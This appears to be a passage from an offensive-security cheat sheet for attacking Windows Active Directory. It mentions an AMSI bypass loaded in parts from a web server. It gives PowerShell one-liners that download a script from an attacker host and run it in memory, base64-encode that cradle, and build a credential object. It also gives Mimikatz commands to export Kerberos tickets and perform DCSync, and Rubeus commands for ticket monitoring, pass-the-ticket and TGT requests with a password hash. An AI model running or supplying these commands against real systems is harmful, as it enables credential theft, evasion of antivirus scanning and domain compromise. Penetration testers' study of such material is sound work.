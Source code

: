 Bypass folder of web server will have AMSI bypass splitted and loaded in parts, then, run whatever payload chosen.
### Powershell useful commands
```
# Load script to memory
(New-Object System.Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1') | iex
IEX (New-Object Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1')

# Create credential object
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Encoded command
$string = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.X.Y/Tools/Random-Script.ps1')"
$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
```

### Mimikatz
```
# Export Kerberos tickets from memory
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::tickets /export"'
# DCSync:
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /domain:infinity.com /all"'
```

### Rubeus
```
# Monitor Kerberos tickets on unconstrained delegation machine
Invoke-Rubeus -Command "monitor /internal:5"
# Load Kerberos ticket:
Rubeus.exe ptt /ticket:base64
# Ask TGT:
.\Rubeus.exe asktgt /user:administrator /domain:infinity.com /rc4:5f9163ca3b673adfff2828f368ca3760 /ptt
```


